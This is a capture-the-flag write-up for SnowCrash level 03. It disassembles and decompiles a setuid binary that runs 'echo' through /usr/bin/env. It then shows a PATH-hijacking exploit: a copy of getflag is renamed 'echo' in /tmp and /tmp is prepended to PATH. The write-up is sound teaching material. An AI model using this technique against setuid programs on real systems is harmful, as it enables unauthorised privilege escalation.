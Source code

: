 # LEVEL 03

    ls  
Outputs an executable called level03.
When we run the executable level03 in the machine (it doesn't accept any arguments), it only outputs "exploit me".

 We can use GDB to try to decompile the executable level03 by doing:
```
disassemble main
```
We get the following output:

    (gdb) disassemble main
    Dump of assembler code for function main:
       0x080484a4 <+0>:     push   %ebp
       0x080484a5 <+1>:     mov    %esp,%ebp
       0x080484a7 <+3>:     and    $0xfffffff0,%esp
       0x080484aa <+6>:     sub    $0x20,%esp
       0x080484ad <+9>:     call   0x80483a0 <getegid@plt>
       0x080484b2 <+14>:    mov    %eax,0x18(%esp)
       0x080484b6 <+18>:    call   0x8048390 <geteuid@plt>
       0x080484bb <+23>:    mov    %eax,0x1c(%esp)
       0x080484bf <+27>:    mov    0x18(%esp),%eax
       0x080484c3 <+31>:    mov    %eax,0x8(%esp)
       0x080484c7 <+35>:    mov    0x18(%esp),%eax
       0x080484cb <+39>:    mov    %eax,0x4(%esp)
       0x080484cf <+43>:    mov    0x18(%esp),%eax
       0x080484d3 <+47>:    mov    %eax,(%esp)
       0x080484d6 <+50>:    call   0x80483e0 <setresgid@plt>
       0x080484db <+55>:    mov    0x1c(%esp),%eax
       0x080484df <+59>:    mov    %eax,0x8(%esp)
       0x080484e3 <+63>:    mov    0x1c(%esp),%eax
       0x080484e7 <+67>:    mov    %eax,0x4(%esp)
       0x080484eb <+71>:    mov    0x1c(%esp),%eax
       0x080484ef <+75>:    mov    %eax,(%esp)
    ---Type <return> to continue, or q <return> to quit---
       0x080484f2 <+78>:    call   0x8048380 <setresuid@plt>
       0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
       0x080484fe <+90>:    call   0x80483b0 <system@plt>
       0x08048503 <+95>:    leave  
       0x08048504 <+96>:    ret    
    End of assembler dump.


Using an online decompiler like [Dogbolt](https://dogbolt.org/) and pasting our result into the Ghidra we get the following result :

    int main(int argc,char **argv,char **envp){
    
    __gid_t __rgid;
    __uid_t __ruid;
    
    int iVar1;
    gid_t gid;
    uid_t uid;
    __rgid = getegid(); // returns the effective group ID of the calling process
    __ruid = geteuid(); // returns the effective user ID of the calling process.
    
    setresgid(__rgid,__rgid,__rgid);
    setresuid(__ruid,__ruid,__ruid); // sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process.
    iVar1 = system("/usr/bin/env echo Exploit me"); //calls the echo builtin located in usr/bin/env
    return iVar1;
    }
      


That result is confirmed with the use of commands such as :
ltrace <file>

    level03@SnowCrash:~$ ltrace ./level03
    __libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
    getegid()                                              = 2003
    geteuid()                                              = 2003
    setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)    = 0
    setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)    = 0
    system("/usr/bin/env echo Exploit me"Exploit me
     <unfinished ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                 = 0
    +++ exited (status 0) +++
 
 ## Security weaknesses
 From that we understand that this program has 2 security weaknesses that we can manipulate :
 
 1. the use of getegid(), geteuid(), setresgid() and setresuid()
 Used before a call to system(), these commands temporarily execute with the permissions of the program level03.
 
      ```-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03```
      > RWS ; read, write and setuid permission for the owner (flag03)
      > RS : read permission for group level03, setgid for level03
      > RX: read and execution rights for others
      Special permissions on this file will allow the executable to run with the permission of the file owner (flag03)

2. Environment manipulation
By manipulating the environment or the executable pointed to by /usr/bin/env (in this case, echo), you can alter the behavior of what echo actually does.
If you replace /usr/bin/env echo with a malicious version of echo that links to another executable, you can execute malicious_program indirectly.

	> Switch the echo builtin with ./getflag that we need to execute



    ```level03@SnowCrash:~$ cp /bin/getflag /tmp/
    level03@SnowCrash:~$ cd /tmp
    level03@SnowCrash:/tmp$ mv getflag echo
    level03@SnowCrash:/tmp$ export PATH=/tmp:$PATH
    level03@SnowCrash:/tmp$ cd ~
    level03@SnowCrash:~$ ./level03```